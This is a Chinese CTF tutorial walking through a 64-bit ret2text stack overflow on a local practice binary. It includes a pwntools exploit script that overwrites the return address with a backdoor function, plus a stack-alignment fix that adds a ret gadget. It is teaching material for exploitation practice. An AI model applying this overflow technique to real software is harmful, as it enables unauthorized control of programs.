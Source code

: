 <h2 id="b26268a4">题目4</h2>
**<font style="color:rgb(216,57,49);">一定提前学习</font>****<font style="color:rgb(216,57,49);">栈溢出</font>****<font style="color:rgb(216,57,49);">原理！！！！！</font>**

64位，Canary和PIE都关了，正常栈溢出

![](https://cdn.nlark.com/yuque/0/2025/png/56806197/1760698607963-58460948-e6d1-4cc2-a294-457e708c7b7a.png)

![](https://cdn.nlark.com/yuque/0/2025/png/56806197/1760698608062-788e26ce-c78b-4109-9138-e12cd0c9d7ad.png)

buf距rbp的位置是0x100，但能read0x140个字节，存在溢出，填充0x100个字节到rbp，因为rbp本身是8个字节，所以再填充八位垃圾数据，下一个写的地方就是返回地址，把返回地址覆盖成后门函数，这样程序的执行流就被我们修改了，执行完vuln函数会返回到后门函数

![](https://cdn.nlark.com/yuque/0/2025/png/56806197/1760698608158-75cbdf00-d3f1-4774-9921-4ecdde403d09.png)

这个IDA View-A是汇编代码，点空格就会变成这样，可以找函数地址，发现backdoor地址为0x4011CA

![](https://cdn.nlark.com/yuque/0/2025/png/56806197/1760698608391-dac9349e-ffb9-4934-989f-0f8baa4ca7db.png)

那么应该这样写对吧

```plain
from pwn import *
context(log_level="debug", arch="amd64", os="linux")
p = process("./ret2text2")


p.recvuntil("It's a easy challenge")
backdoor=0x4011ca
payload=b'A'*0x108+p64(backdoor)

p.sendline(payload)
 
p.interactive()
```

但你会发现打不通，爆EOF

![](https://cdn.nlark.com/yuque/0/2025/png/56806197/1760698608520-f11fa5e7-0d5a-463c-96fe-06c84c81c762.png)

OK此处去简单了解知识点：**堆栈平衡**（只有64位会出现这种情况）

原理慢慢理解，直接给方法，下面给出两种方法解决

<h3 id="23833363">1、加ret</h3>
![](https://cdn.nlark.com/yuque/0/2025/png/56806197/1760698608776-5b307e2e-6b5f-43fe-a457-bf298bddb49b.png)

```plain
ret=0x40101a
payload=b'A'*0x108+p64(ret)+p64(backdoor)
```

<h3 id="e3679ed5">2、找合适的后门地址</h3>
![](https://cdn.nlark.com/yuque/0/2025/png/56806197/1760698608553-46b11a03-da88-4f20-b7f3-9cb913fcb0f3.png)
